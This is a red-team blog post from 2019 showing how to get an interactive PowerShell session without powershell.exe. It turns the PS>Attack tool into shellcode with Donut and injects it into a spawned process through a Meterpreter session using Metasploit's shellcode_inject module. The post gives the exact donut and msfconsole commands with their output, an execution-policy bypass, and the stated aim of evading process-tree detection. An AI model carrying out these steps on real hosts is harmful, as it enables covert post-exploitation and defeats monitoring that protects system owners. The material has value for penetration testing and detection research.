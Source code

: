 ```yaml
---
layout: default
---
```


_**Oct 3, 2019**_

## We Don't Need PowerShell.exe: Meterpreter Edition!

I am keeping playing with the awesome [Donut](https://github.com/TheWover/donut) project and this time we are going to spawn a reflective, interactive PowerShell session without relying on `powershell.exe`! 🐱‍👤

[![asciicast](https://asciinema.org/a/uxD6fGs5XYKNhSk9jxv11d4Zr.svg)](https://asciinema.org/a/uxD6fGs5XYKNhSk9jxv11d4Zr)

# Prerequisites

First, I suggest to read the following blog posts for a bit of context:

- [https://decoder.cloud/2017/11/02/we-dont-need-powershell-exe/](https://decoder.cloud/2017/11/02/we-dont-need-powershell-exe/)
- [https://decoder.cloud/2017/11/08/we-dont-need-powershell-exe-part-2/](https://decoder.cloud/2017/11/08/we-dont-need-powershell-exe-part-2/)
- [https://decoder.cloud/2017/11/17/we-dont-need-powershell-exe-part-3/](https://decoder.cloud/2017/11/17/we-dont-need-powershell-exe-part-3/])
- [https://decoder.cloud/2017/12/13/we-dont-need-powershell-exe-4/](https://decoder.cloud/2017/12/13/we-dont-need-powershell-exe-4/)
- [https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html](https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html)

## Motivation

[As shown in the previous post](https://iwantmore.pizza/posts/meterpreter-shellcode-inject.html), we are now able to reflectively execute arbitrary binaries thanks to [Donut](https://github.com/TheWover/donut) within a Meterpreter session. Is it also possible to spawn a `cmd.exe` or `powershell.exe` in this way and evade any potential detection running on the host's process tree? Let's find it out!

## Investigation

If we generate a shellcode for `cmd.exe` and `powershell.exe` and try to inject it into a `notepad.exe` process, nothing seems to be happening, or more precisely, the entire process exits. Unfortunately, at the time of writing, [Donut](https://github.com/TheWover/donut) only supports arguments passing for .NET EXEs and .NET DLLs so we cannot try to mess with the command line in order to keep alive our injected shell.  

Are we done already?  

Maybe there are some other shells that we can use in place of the built-in ones. Let's try out with some open source .NET project that executes PowerShell commands without directly relying on `powershell.exe`: say welcome to [PS>Attack](https://github.com/jaredhaight/PSAttack)!  

Let's generate the shellcode with [Donut](https://github.com/TheWover/donut):

```text
$ donut -f /tmp/psattack.exe -a 2 -o /tmp/psattack.bin

  [ Donut shellcode generator v0.9.2
  [ Copyright (c) 2019 TheWover, Odzhan

  [ Instance type : PIC
  [ Module file   : "/tmp/psattack.exe"
  [ File type     : :NET EXE
  [ Target CPU    : AMD64
  [ AMSI/WDLP     : continue
  [ Shellcode     : "/tmp/psattack.bin"
```

Now let's move to Metasploit, spawn a Meterpreter on the target machine and proceed to use the module in the following way:

```text
msf5 post(windows/manage/shellcode_inject) > use post/windows/manage/shellcode_inject
msf5 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/psattack.bin
msf5 post(windows/manage/shellcode_inject) > set SESSION 1
msf5 post(windows/manage/shellcode_inject) > run


[*] Running module against MSEDGEWIN10
[*] Spawned process 6988
[*] Process found checking Architecture
[+] Process is the same architecture as the payload
[*] Injecting shellcode into process ID 6988
[*] Allocating memory in process 6988
[*] Allocated memory at address 0x1bc0ec60000, for 1044960 byte shellcode
[+] Successfully injected payload in to process: 6988
[*] Interacting

 (   (                                           )  
 )\ ))\ )   (      *   ) *   )   (       (    ( /(  
(()/(()/(   )\   ` )  /` )  /(   )\      )\   )\()) 
 /(_)/(_)((((_)(  ( )(_)( )(_)((((_)(  (((_)|((_)\  
(_))(_))__)\ _ )\(_(_()(_(_()) )\ _ )\ )\___|_ ((_) 
| _ / __\ (_)_\(_|_   _|_   _| (_)_\(_((/ __| |/ /  
|  _\__ \> / _ \   | |   | |    / _ \  | (__  ' <   
|_| |___/_/_/ \_\  |_|   |_|   /_/ \_\  \___|_|\_\ 

Loading...

...

Set -ExecutionPolicy Bypass -Scope Process -Force
[Version 1.99.1] Build Date 2/17/2018 2:45:08 PM

If you'd like a version of PS>Attack thats even harder for AV
to detect checkout http://github.com/jaredhaight/PSAttackBuildTool

For help getting started, run 'get-attack'

C:\Windows\system32 #> echo "we don't need powershell!"
we don't need powershell!
C:\Windows\system32 #> 'amsiutils'
'amsiutils'
C:\Windows\system32 #> exit
[*] Post module execution completed
```

It works, we have successfully spawned an interactive PowerShell session without actually spawning `powershell.exe`! 🚀

![demo](../assets/images/shellcode_psattack.jpg "Demo")

[back](../)
